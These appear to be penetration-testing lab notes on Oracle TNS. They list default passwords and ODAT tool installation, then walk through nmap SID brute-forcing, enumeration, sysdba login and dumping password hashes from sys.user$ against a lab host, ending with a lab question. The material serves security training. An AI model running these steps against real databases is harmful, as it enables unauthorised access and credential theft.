 - Oracle Transparent Network Substrate (TNS) server is a communication protocol that facilitates communication between Oracle databases and applications over networks
- supports IPX/SPX and TCP/IP protocols

### Default Configuration

- listens for incoming connections on the TCP/1521
- By default, Oracle TNS can be remotely managed in Oracle 8i/9i but not in Oracle 10g/11g
- listener will only accept connections from authorized hosts and perform basic authentication using a combination of hostnames, IP addresses, and usernames and passwords
- listener will use Oracle Net Services to encrypt the communication between the client and the server.
- configuration files are tnsnames.ora and listener.ora and are located in the ORACLE_HOME/network/admin directories
- Oracle 9 has a default password **CHANGE_ON_INSTALL**
- Oracle 10 has no default password set
- Oracle DBSNMP service also uses a default password, **dbsnmp**
- many organizations still use the finger service together with Oracle
- Each database or service has a unique entry in the tnsnames.ora file, containing the necessary information for clients to connect to the service
- listener.ora file is a server-side configuration file that defines the listener process's properties and parameters, which is responsible for receiving incoming client requests and forwarding them to the appropriate Oracle database instance
- Oracle databases can be protected by using so-called PL/SQL Exclusion List (PlsqlExclusionList). It is a user-created text file that needs to be placed in the $ORACLE_HOME/sqldeveloper directory, and it contains the names of PL/SQL packages or types that should be excluded from execution


### Oracle Database Attacking Tool

Oracle Database Attacking Tool (ODAT) is an open-source penetration testing tool written in Python and designed to enumerate and exploit vulnerabilities in Oracle databases. It can be used to identify and exploit various security flaws in Oracle databases, including SQL injection, remote code execution, and privilege escalation.

Below is a script to download the tool and it's dependencies

```
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
sudo submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```

System Identifier, **SIDs**, are an essential part of the connection process, as it identifies the specific instance of the database the client wants to connect to. If the client specifies an incorrect SID, the connection attempt will fail. Database administrators can use the SID to monitor and manage the individual instances of a database. For example, they can start, stop, or restart an instance, adjust its memory allocation or other configuration parameters, and monitor its performance using tools like Oracle Enterprise Manager.


**NMAP**
```
sudo nmap -p1521 -sV 10.129.205.19 --open
```

**NMAP - SID Bruteforcing**
```
sudo nmap -p1521 -sV 10.129.205.19 --open --script oracle-sid-brute
```


**Use odat.py to enumerate the oracle db**
```
./odat.py all -s 10.129.205.19
```

Credentials found - scott:tiger

**Use sqlplus to connect to Oracle db**
```
sqlplus scott/tiger@10.129.205.19/XE;
```

If you come across the following error...
```
sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory
```

...execute the below:
```
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

**Oracle RDBMS Interaction**
```
select table_name from all_tables;
```

**ORACLE RDBMS Enumeration - Logging in as Sys Admin**
(substitute scott:tiger for robin:robin)
```
sqlplus robin/robin@10.129.205.19/XE as sysdba
```

**Extracting Password Hashes**
```
select name, password from sys.user$;
```

### Questions

Enumerate the target Oracle database and submit the password hash of the user DBSNMP as the answer.
```
```